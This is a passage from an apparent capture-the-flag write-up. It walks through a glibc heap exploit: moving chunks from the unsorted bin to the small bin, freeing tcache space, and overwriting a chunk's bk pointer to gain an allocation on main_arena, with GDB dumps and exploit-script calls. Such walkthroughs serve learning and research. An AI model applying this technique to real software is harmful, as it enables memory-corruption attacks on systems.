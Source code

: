 ```sh
0112| 0x7ffff7fefca0 --> 0x55555555a990 --> 0x0  -> Top Chunk
0120| 0x7ffff7fefca8 --> 0x0
0128| 0x7ffff7fefcb0 --> 0x555555559470 --> 0x30303030303030 ('0000000')  -> Unsorted Bins , Chunk 1
0136| 0x7ffff7fefcb8 --> 0x55555555a570 --> 0x32323232323232 ('2222222')  -> Chunk 2

```

Now we send both unsorted bins to small bin.

```py
add(0,'S'*0x300)
```
As u can see from below , both chunks have been added to small bin.

```sh
0648| 0x7ffff7fefeb8 --> 0x7ffff7fefea0 --> 0x7ffff7fefe90 --> 0x7ffff7fefe80 --> 0x7ffff7fefe70 --> 0x7ffff7fefe60 (--> ...)
0656| 0x7ffff7fefec0 --> 0x555555559470 --> 0x30303030303030 ('0000000') -> Chunk 1
0664| 0x7ffff7fefec8 --> 0x55555555a570 --> 0x32323232323232 ('2222222') -> Chunk 2
```

Now , we create space in tcache for triggering the vulnerability.

Let us recollect that we now edit the `bk` pointer of our small bin chunk and then with a malloc , we can now send our small bin chunk to tcache.

But first of all , to send our target chunk to tcache , we first need to make some place in tcache of 0x220 , so we malloc and consume one tcache.

```py
secret('a')

```
 
Now we can edit the `bk` pointer of chunk 2. Note that here we intend to get an allocation on `main_arena` structure.

Before editing , let us have a look at what we intend to do.

```sh
0640| 0x7ffff7fefeb0 --> 0x7ffff7fefea0 --> 0x7ffff7fefe90 --> 0x7ffff7fefe80 --> 0x7ffff7fefe70 --> 0x7ffff7fefe60 (--> ...)
0648| 0x7ffff7fefeb8 --> 0x7ffff7fefea0 --> 0x7ffff7fefe90 --> 0x7ffff7fefe80 --> 0x7ffff7fefe70 --> 0x7ffff7fefe60 (--> ...)
0656| 0x7ffff7fefec0 --> 0x555555559470 --> 0x30303030303030 ('0000000')
0664| 0x7ffff7fefec8 --> 0x55555555a570 --> 0x32323232323232 ('2222222') -> we can easily pass corruption checks with this as our   new fake chunk , let's call this the victim chunk :P.
```

Now we edit chunk 2's *bk* ptr , note that we dont change the fd and keep it as it is.

```py

victim = libc_base + 0x219ec8
edit(2,p64(victim-0x18) + p64(victim-0x10)) #Turns out that fd was victim-0x18, afterall it's all in the main_arena :)

```
